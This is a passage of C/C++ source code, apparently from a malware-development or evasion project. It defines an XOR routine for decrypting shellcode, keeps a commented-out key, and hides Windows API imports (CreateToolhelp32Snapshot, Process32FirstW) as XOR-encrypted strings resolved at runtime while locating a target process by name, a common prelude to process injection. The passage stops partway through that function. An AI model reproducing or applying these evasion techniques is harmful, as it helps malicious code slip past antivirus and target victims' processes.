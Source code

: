 ```c
//unsigned char key[] = { 0x69, 0xB6, 0xCE, 0x23, 0x24, 0x08, 0xEA, 0x63, 0x60, 0x9F, 0xA3, 0x84, 0x0A, 0x12, 0xAB, 0x88, 0x9C, 0xBE, 0x23, 0xB9, 0x2B, 0x53, 0xFC, 0xD6, 0xB3, 0x98, 0xC8, 0x81, 0x08, 0x9A, 0xD3, 0xCF, 0xC0, 0xCF, 0xF4, 0x90, 0xE7, 0xDE, 0xBD, 0xFE, 0x35, 0x47, 0x13, 0x7A, 0x54, 0xB7, 0x25, 0xB7, 0x96, 0xDD, 0x48, 0x1E, 0x3D, 0xFA, 0x00, 0x13, 0x1D, 0xBD, 0x4A, 0x8B, 0x93, 0xBC, 0xDD, 0xBE, 0x6A, 0xB6, 0xEF, 0xB8, 0x34, 0x81, 0xBB, 0xD2, 0xE3, 0xA1, 0x7A, 0x0F, 0x38, 0x48, 0x66, 0x6A, 0xDC, 0x58, 0xEA, 0xC3, 0x40, 0xBE, 0x88, 0x18, 0x82, 0x96, 0x31, 0x74, 0x31, 0x8D, 0x5C, 0x04, 0xF9, 0x26, 0x13, 0x1B };
//unsigned int key_len = sizeof(key);

HMODULE hKernel32 = GetModuleHandle(L"kernel32.dll");

void XOR(unsigned char* shellcode, size_t shellcode_len, unsigned char* key, size_t key_len) {
	if (shellcode == NULL || key == NULL || shellcode_len == 0 || key_len == 0) {
		printf("Invalid input parameters\n");
		return;
	}
	for (size_t i = 0; i < shellcode_len; ++i) {
		shellcode[i] ^= key[i % key_len];
	}
}

// Find PID by process name. Returns first occurrence.
int findMyProc(wchar_t* procname) {

	HANDLE hSnapshot; // Handle to the system process snapshot.
	PROCESSENTRY32 pe;
	int pid = 0;
	BOOL hResult;

	printf("Searching for the process %ls to get its PID...\n", procname);

	// snapshot of all processes in the system
	unsigned char CreateToolhelp32SnapshotEncrypted[] = { 0x2A, 0xC4, 0xAB, 0x42, 0x50, 0x6D, 0xBE, 0x0C, 0x0F, 0xF3, 0xCB, 0xE1, 0x66, 0x62, 0x98, 0xBA, 0xCF, 0xD0, 0x42, 0xC9, 0x58, 0x3B, 0x93, 0xA2, 0xB3 };
	XOR(CreateToolhelp32SnapshotEncrypted, sizeof(CreateToolhelp32SnapshotEncrypted), key, key_len);
	auto const pCreateToolhelp32Snapshot = reinterpret_cast<LPVOID(WINAPI*)(DWORD dwFlags, DWORD th32ProcessID)>(
		GetProcAddress(hKernel32, (LPCSTR)CreateToolhelp32SnapshotEncrypted)
		);
	hSnapshot = pCreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE) return 0;

	// It is neccesary to initialize the size of the process entry.
	/* Before calling the Process32First function, set this member to sizeof(PROCESSENTRY32). If you do not initialize dwSize,
	Process32First fails (https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/ns-tlhelp32-processentry32) */
	pe.dwSize = sizeof(PROCESSENTRY32W);

	// Retrieve infrormation about first process encountered in a system snapshot
	unsigned char Process32FirstWEncrypted[] = { 0x39, 0xC4, 0xA1, 0x40, 0x41, 0x7B, 0x99, 0x50, 0x52, 0xD9, 0xCA, 0xF6, 0x79, 0x66, 0xFC, 0x88 };
	XOR(Process32FirstWEncrypted, sizeof(Process32FirstWEncrypted), key, key_len);
	auto const pProcess32FirstW = reinterpret_cast<BOOL(WINAPI*)(HANDLE hSnapshot, LPPROCESSENTRY32 lppe)>(
		GetProcAddress(hKernel32, (LPCSTR)Process32FirstWEncrypted)
		);
	hResult = pProcess32FirstW(hSnapshot, &pe);

	// Get information about the obtained process using its handle
	// and exit if unsuccessful
```